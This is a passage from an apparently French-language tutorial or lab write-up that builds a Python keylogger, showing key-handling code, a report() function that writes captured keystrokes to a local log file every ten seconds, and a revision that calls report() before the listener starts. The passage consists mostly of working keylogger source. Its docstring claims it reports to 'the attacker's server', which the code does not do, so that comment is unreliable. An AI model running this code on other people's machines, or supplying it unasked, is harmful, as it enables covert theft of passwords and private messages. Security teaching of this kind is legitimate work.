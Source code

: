 ```python
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        elif key == keyboard.Key.enter:
            log += "\n"
        elif key == keyboard.Key.backspace:
            log = log[:-1]
        else:
            log += ""

def report():
    """
    Report the log to the attacker's server.
    """
    global log, path
    with open(path, "a") as logfile:
        logfile.write(log)
    log = ""
    threading.Timer(10, report).start()


# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    report()
    keyboard_listener.join()
```

Note: La ligne `threading.Timer(10, report).start()` exécute la fonction `report` toutes les 10 secondes en démarrant un nouveau thread. Cela permet d'enregistrer périodiquement les frappes dans le fichier sans bloquer le programme principal. Nous avons également supprimer la ligne de `print` de la fonciton `processkeys` afin de rendre le keylogger visuellement plus lisible.

Nous pouvons constater que cela fonctionne correctement:

![image-20241128091305349](./assets/image-20241128091305349.png)

> Ajouter un appel à la fonction `report()` avant

Nous modifions donc notre code de la manière suivante.

```python
# [....]
report()

# Start the keylogger
with keyboard.Listener(on_press=processkeys) as keyboard_listener:
    keyboard_listener.join()
```

Nous lançons notre programme, et constatons que celui-ci se lance mais n'écrit pas tout de suite dans le fichier `log.txt`.

![image-20241128091704793](./assets/image-20241128091704793.png)
